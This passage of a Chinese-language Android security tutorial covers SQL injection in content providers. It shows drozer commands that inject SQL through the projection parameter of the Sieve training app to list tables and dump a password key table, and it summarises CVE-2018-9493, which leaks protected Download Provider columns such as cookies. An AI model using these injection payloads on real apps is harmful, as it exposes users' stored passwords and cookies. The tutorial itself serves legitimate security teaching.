```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"

```

![](https://bbs.pediy.com/upload/attach/202109/905443_ATVKAEG5HQM3GT5.png)

 

获取具体表信息

```
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"

```

![](https://bbs.pediy.com/upload/attach/202109/905443_KWQW5V7SXP52NGH.png)

 

列出该 app 的表信息

```
run scanner.provider.sqltables -a  com.mwr.example.sieve

```

![](https://bbs.pediy.com/upload/attach/202109/905443_PMANUDQ547U2CN6.png)

 

案例 3：[CVE-2018-9493: Download Provider SQL 注入](https://mabin004.github.io/2019/04/15/Android-Download-Provider%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

 

漏洞分析：

```
Download Provider中的以下columns是不允许被外部访问的，例如CookieData，但是利用SQL注入漏洞可以绕过这个限制。
projection参数存在注入漏洞，结合二分法可以爆出某些columns字段的内容。

```

目标代码：

 

![](https://bbs.pediy.com/upload/attach/202109/905443_VHTPUNDMAJDMFYM.png)

 

攻击代码：

 

详细可以参考该作者博客：(https://mabin004.github.io/2019/04/15/Android-Download-Provider%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

#### [](#（3）安全防护)（3）安全防护
